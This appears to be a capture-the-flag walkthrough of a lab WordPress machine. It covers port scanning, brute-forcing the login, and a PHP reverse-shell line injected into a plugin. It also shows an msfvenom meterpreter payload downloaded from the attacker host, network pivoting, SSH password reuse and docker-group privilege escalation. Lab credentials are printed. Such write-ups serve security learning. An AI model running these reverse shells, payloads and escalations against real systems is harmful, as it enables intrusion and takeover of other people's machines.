



# For Business Reasons


For the scanning phase I started by scanning all the ports on the machine, but the only open port available is port `80`.
```
$ sudo nmap -sS -Pn --max-retries 1 --min-rate 20 -p- 10.10.103.161
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-04 09:52 CEST
Nmap scan report for 10.10.103.161
Host is up (0.046s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE  SERVICE
22/tcp   closed ssh
80/tcp   open   http
2377/tcp closed swarm
7946/tcp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 107.50 seconds
```
So I decided to focus myself on port `80` and run another scan using nmap scripts to check for vulnerabilities.
```
$ sudo nmap -sS -Pn --script vuln -p 80 10.10.103.161              
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-04 09:56 CEST
Nmap scan report for 10.10.103.161
Host is up (0.059s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /wp-login.php: Possible admin folder
|   /wp-json: Possible admin folder
|   /robots.txt: Robots file
|   /readme.html: Wordpress version: 2 
|   /: WordPress version: 5.4.2
|   /feed/: Wordpress version: 5.4.2
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|   /readme.html: Interesting, a readme.
|_  /0/: Potentially interesting folder
| http-wordpress-users: 
| Username found: sysadmin
|_Search stopped at ID #25. Increase the upper limit if necessary with 'http-wordpress-users.limit'
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.103.161
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://10.10.103.161:80/
|     Form id: search-form-1
|     Form action: http:/
|     
|     Path: http://10.10.103.161:80/
|     Form id: search-form-2
|_    Form action: http:/
|_http-dombased-xss: Couldn't find any DOM based XSS.

Nmap done: 1 IP address (1 host up) scanned in 87.81 seconds
```
The scanner produced many interesting results:

* On the **wp-login.php** page there is the cassic WordPress login form to access the site dashboard.
* On the **feed** page I was able to download an xml file with informations about the platform including the wordpress version used.

```xml
<language>en-US</language>
<sy:updatePeriod> hourly </sy:updatePeriod>
<sy:updateFrequency> 1 </sy:updateFrequency>
<generator>https://wordpress.org/?v=5.4.2</generator>
<item>
```

* Nmap also found a (probable) username used in the system, **sysadmin**. Most likely I can use it to access the dashboard via the login panel.


While searching the internet for known vulnerabilities for this version of WordPress, I launched a brute-force with [wpscan](https://wpscan.com/) tool attack using the username I found and a dictionary of passwords.

```
$ wpscan --url http://10.10.103.161/ -U sysadmin -P /usr/share/wordlists/rockyou.txt

[...]

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - sysadmin / milkshake                                                                                                                                                                                                            
Trying sysadmin / kenzie Time: 00:02:07 <                                                                                                                                                          > (1665 / 14346057)  0.01%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: sysadmin, Password: milkshake
```

When I realized that wpscan had found the password I logged in to the site and had access to the dashboard. Since I have an admin account I can change themes and install new plugins, so I checked which plugins were installed and I modified one of them, in my case I choosed HelloDolly.

I have inserted the following line of code into the plugin's source code.
```php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.9.15.73/1235 0>&1'");
```

<div><p align="center"></div>
This PHP code executes a Bash shell command that tries to create a reverse shell connection to the IP address 10.9.15.73 on port 1235.

Then I activated the plugin on the **Plugin installed** page.
<div><p align="center"></div>
On the attacking machine I started a listener with netcat and got the connection.

```
$ rlwrap nc -lnvp 1235
listening on [any] 1235 ...
connect to [10.9.15.73] from (UNKNOWN) [10.10.103.161] 34182
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@b823de5b84e0:/var/www/html/wp-admin$ 
-----
          
www-data@c283b1285d53:/var/www/html/wp-admin$ 
```

First, I downloaded linpeas on the target machine and launched it. It highlighted two interesting things to me, including:

* db credentials
```
╔══════════╣ Analyzing Wordpress Files (limit 70)
-rw-r--r-- 1 www-data www-data 3262 Oct  4 09:28 /var/www/html/wp-config.php                                                                                                                                                                
define( 'DB_NAME', 'wpdb');
define( 'DB_USER', 'wpdbuser');
define( 'DB_PASSWORD', 'Ceixahz5');
define( 'DB_HOST', 'db');
```

* Interfaces

```
╔══════════╣ Interfaces
Inter-|   Receive                                                |  Transmit                                                                                                                                                                
 face |bytes    packets errs drop fifo frame compressed multicast|bytes    packets errs drop fifo colls carrier compressed
    lo:   30420     424    0    0    0     0          0         0    30420     424    0    0    0     0       0          0
  eth2:  899801     771    0    0    0     0          0         0   118992     568    0    0    0     0       0          0
  eth1:  790965    1156    0    0    0     0          0         0   145094    1305    0    0    0     0       0          0
  eth0:  187939    1618    0    0    0     0          0         0  2182172    1254    0    0    0     0       0          0
```

Database credentials written in plain text in code are a serious vulnerability, but I don't think they're useful in this case. So I focused on the network interfaces, the machine belongs to three subnets. Anyway, on the machine there were not installed usefull tool or commands, so to better inspect the subnets I started a meterpreter session.

To do this I created a payload with `msfvenom`.
```
$ msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=10.9.15.73 LPORT=4444 -f elf > shell
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 1137112 bytes
Final size of elf file: 1137112 bytes
```

I uploaded the payload the payload on the machine through a python server opened on attacker machine and curl command to downlaod it on the target machine. After that I started a listener using `exploit/multi/handler` metasploit module.
```
www-data@b823de5b84e0:/tmp$ curl -X GET http://10.9.15.73:8787/shell > shell
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 1110k  100 1110k    0     0   450k      0  0:00:02  0:00:02 --:--:--  450k
```

As soon as I downloaded the elf, I gave it execute permissions and launched it. After a few moments I got connected to a meterpreter shell.

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.9.15.73:4444 
[*] Meterpreter session 3 opened (10.9.15.73:4444 -> 10.10.103.161:45790) at 2023-10-05 09:24:22 +0200

meterpreter > 
```

Finally I was able to use the ifconfig command and inspect the three network interfaces.
```
meterpreter > ifconfig

Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0


Interface 14
============
Name         : eth0
Hardware MAC : 02:42:0a:ff:00:04
MTU          : 1450
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 10.255.0.4
IPv4 Netmask : 255.255.0.0


Interface 16
============
Name         : eth2
Hardware MAC : 02:42:ac:12:00:03
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 172.18.0.3
IPv4 Netmask : 255.255.0.0


Interface 18
============
Name         : eth1
Hardware MAC : 02:42:0a:00:00:03
MTU          : 1450
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 10.0.0.3
IPv4 Netmask : 255.255.255.0

```

Than I used `multi/manage/autoroute` module to add routes to a target system's routing table, this ensure that network traffic is correctly routed through compromised machine.

```
msf6 post(multi/manage/autoroute) > set SESSION 4
SESSION => 4
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 10.255.0.4
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.0.0.0/255.255.255.0 from host's routing table.
[+] Route added to subnet 10.255.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.18.0.0/255.255.0.0 from host's routing table.
[*] Post module execution completed
msf6 post(multi/manage/autoroute) > route print

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.0.0.0           255.255.255.0      Session 4
   10.255.0.0         255.255.0.0        Session 4
   172.18.0.0         255.255.0.0        Session 4

```

Finally, using the server/socks_proxy module I started a socks 4 proxy to correctly route network traffic,to do this I used the data in the `/etc/proxychains4.conf` file.

```
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
```

To find the IP addresses of machines on other networks I inspected the arp caches

```
meterpreter > arp

ARP cache
=========

    IP address  MAC address        Interface
    ----------  -----------        ---------
    10.0.0.1    5e:b3:92:f7:4c:53
    10.0.0.2    02:42:0a:00:00:04
    10.0.0.4    02:42:0a:00:00:04
    10.0.0.5    02:42:0a:00:00:04
    10.255.0.2  02:42:0a:ff:00:02
    172.18.0.1  02:42:b0:92:28:a0
```

I ran some scans again on the various machines found using `scanner/portscan/tcp`, and found ports `22`and `80` open on the `172.18.0.1` network. Among other things, even analyzing the results of linpeas, this machine seems to be a docker container and this network is most likely the virtual network used by docker, most likely (given that it is the gateway address) it is the address of the machine that is hosting the containers.
So if I can connect to this IP via ssh I can exit the container and move to a machine with more privileges and functionality

```
msf6 auxiliary(scanner/portscan/tcp) > run

[+] 172.18.0.1:           - 172.18.0.1:22 - TCP OPEN
[+] 172.18.0.1:           - 172.18.0.1:80 - TCP OPEN
[*] 172.18.0.1:           - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Before checking the ssh version or trying a brute-force attack, I tried connecting to the service using the same credentials I had used on the website with the sysadmin user. I honestly didn't expect them to be correct, but intead...

```
$ proxychains ssh sysadmin@172.18.0.1
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.18.0.1:22  ...  OK
The authenticity of host '172.18.0.1 (172.18.0.1)' can't be established.
ED25519 key fingerprint is SHA256:U14271OTfB1vLbhGF52YlyhN4QwdxK/ukXix+l83+iI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.18.0.1' (ED25519) to the list of known hosts.
sysadmin@172.18.0.1's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

263 packages can be updated.
181 updates are security updates.


Last login: Sat Nov 21 15:30:19 2020
sysadmin@ubuntu:~$
```
I also loaded linpeas here and launched it and found that the sysadmin user is part of the docker group.
```
$ proxychains scp linpeas.sh sysadmin@172.18.0.1:/tmp                       
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.18.0.1:22  ...  OK
sysadmin@172.18.0.1's password: 
linpeas.sh    
```
<div><p align="center"></div>


By default, Docker requires superuser privileges (root) to interact with the Docker daemon. However, when you install Docker, it often creates a group called "docker," and if a user is added to this group, they can execute Docker commands without needing to be a superuser.
When an attacker gains access to a user account that is a member of the Docker group. While this user might not have full root access, they can use Docker to run containers with various options that can potentially lead to privilege escalation. Some of the common ways an attacker could leverage Docker for privilege escalation include:

* Running a container with the --privileged flag, which provides almost full access to the host system, effectively bypassing most security mechanisms.
* Mounting the host's root filesystem into a container and making changes to system files.
* Running containers with host-level network access, potentially allowing them to interact with other containers or services on the host

In this case I created a new container by mounting the entire file system and I was able to access the root folder and read the last flag.
```
sysadmin@ubuntu:~$ docker run -v /:/mnt --rm -it wordpress chroot /mnt sh
# whoami
root
```

* :warning: I forgot to save the output from when I read the flags, anyway:
    * flag0 is on the container `/var/www/html` directory.
    * flag1 is on host machine readble by sysadmin in `/home/sysadmin` directory.
    * flag2 is on host machine readble by root in `/root` directory.